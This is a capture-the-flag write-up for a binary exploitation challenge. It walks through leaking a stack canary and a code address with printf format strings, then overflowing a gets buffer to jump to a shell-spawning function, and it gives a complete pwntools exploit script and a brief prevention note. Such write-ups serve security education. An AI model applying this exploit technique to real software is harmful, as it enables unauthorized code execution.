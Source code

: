 # First thoughts:
The program now expects 3 user inputs. The first is just the flag from the previous challenge. After looking at the provided source code I saw that the flag checking is done safe, so no exploitation possible here. But the rest of the program is the same as pwn1. So the rest of the inputs are provided via a `gets` and all the text is printed via `printf`. So again a possible BufferOverflow because gets doesn't check the buffer size provided and writes however long the input is to the stack.  And because of the `printf ` it is feasible to use a StringFormatExploit.
The last step is to get a shell, Luckily the function `WINgardium_leviosa` is again provided which calls the shell.
With the program checksec I noticed that now there are stack canaries provided so I have to bypass them first before overwriting the return address.

# The Exploit:
## Getting the addresses we want to jump to
First I created a small python script with pwntools. The script waits for the string `Enter the password from stage 1:` and sends the flag. 
After that I first wanted to get the addresses needed for the exploit, like in Stage 1. So the script would wait for the string `Enter your witch name:`  after that the program expects a user input. So the script would send a string containing `%p` 42 times and between a `|`. Because I knew from the source that the given witch name would be printed directly with `printf`. I knew that if I send `%p` the program would leak the next 42 addresses from the stack. Now I attach gdb to the program and with the command `vmmap` I see at which address my program starts and ends. If I now compare this with the output I got from my input. I notice that the 40th value is inside my programs address space (e.g. 0x55588a175dc5). With this knowledge I can now defeat ASLR normally this randomizes the addresses at which the program and its libraries get loaded. But now I can get an address from inside the programs address space and because the methods inside the program have a constant relative address I now searches for the `WINgardium_leviosa` function and copied the address (e.g. 0x55588a175b94). So the distance between is 0x55588a175dc5-0x55588a175b94=0x231, so I know if I add 0x231 to the 40th value I get the start of the `WINgardium_leviosa` function.
We know from the first pwn challenge that we have to deal with an unaligned stack if we directly jump to this function.  To align it I just need to make a simple return in front of that. So I have to get an address to a return e.g. the return address of the  `WINgardium_leviosa` function is 0x55588a175bca and calculate the distance to the start of the `WINgardium_leviosa` function (0x55588a175b94-0x55588a175bca=0x36).

## Bypass the canary value
First I have to find out which padding I need to add to `Expelliarmus\x00` until the canary value. I create a payload for the third input with `Expelliarmus\x00` concatenated  with `cyclic(0xff)`. The `cylic` function creates a sequence of chars generated by pwntools. This sequence is special as every part can be recognized by only 4 chars. I attach gdb to the program and wait until an error is thrown because of the canary value. There gdb tells me what value was checked, it turns out to be `cnaa`. So now I know if I replace `cyclic(0xff)` by `"A"*cyclic_find("cnaa")` then the next thing overwrites the canary value. 
Now comes the tricky part I need to get the canary value. Luckily I can leak the stack by changing the payload for the second input. Previously it was `%p` 42 times and in between a `|`. But because I only need the 40th value I can send `%lx` 38 times and then 4 times `%p` with `|` in between. Because the number of formats strings hasn't changed the 40th place also hasn't changed. But now `%lx` is printed. The x is for printing values from the stack and the l says that it should print 64 bit values instead of 32 bit. 
Now the script can be executed again and I can look for the real canary value in gdb and search it in the output of the script. It is printed as the 38th value.

## Final payload
Now that I know the canary value my payload looks like this: `Expelliarmus\x00` concatenated  with `"A"*cyclic_find("cnaa")` concatenated with the canary value.
The next step is to find out where the `AAAAAA` functions return pointer is located from the canary value. So I concatenate `cyclic(0xff)` to the payload, start the script and attach gdb to the program.  Now I wait for a Segmentation Fault and notice that the program tried to jump to the address in chars `caaa`. So I now know the canary value got replaced correctly and the padding between it and the return address is `"A"*cyclic_find("caaa")`.
So I the final payload looks like this: `Expelliarmus\x00` concatenated  with `"A"*cyclic_find("cnaa")` concatenated with the canary value then `"A"*cyclic_find("caaa")` after that  the address to the return and finally the start address of the `WINgardium_leviosa` function.
At the end the script looks like this:
```
from pwn import *

p = process("./pwn2")
#p = remote("hax1.allesctf.net", 9101)

FORMATSTRING = "|".join(["%lx" for _ in xrange(0,38)])
FORMATSTRING2 = "|".join(["%p" for _ in xrange(0,4)])

MAIN_TO_WIN_OFFEST = 0x231

p.recvuntil("Enter the password of stage 1:")

p.sendline("CSCG{THIS_IS_TEST_FLAG}")
#p.sendline("CSCG{NOW_PRACTICE_MORE}")

p.recvuntil("Enter your witch name:")

raw_input("attach gdb")

p.sendline(FORMATSTRING + "|" + FORMATSTRING2)


LEAKS = p.recvuntil("enter your magic spell:").split("|")
CANARY = int(LEAKS[-4], 16)

MAIN = int(LEAKS[-2], 16)
log.info("Leaked return value 0x{:x}".format(MAIN))
log.info("Leaked CANARY value 0x{:x}".format(CANARY))

#print(LEAKS)

WIN = MAIN-MAIN_TO_WIN_OFFEST
RET = WIN+0x36

#print(p64(CANARY))

PADDING1 = "A"*cyclic_find("cnaa")
PADDING2 = "A"*cyclic_find("caaa")
p.sendline("Expelliarmus\x00" + PADDING1 + p64(CANARY) + PADDING2 + p64(RET) + p64(WIN))

p.interactive()

```
Now that I got a bash just execute `cat flag` and the flag is printed out.
To get the real flag just change the attached program to the server and change the flag to the real one from Stage 1 and execute.

# Prevention:
The problem is that the user input is not sanitized.
If the input got sanitized and a safe alternative for `gets` would be used like `fgets` then it wouldn't be possible to overwrite the return value.
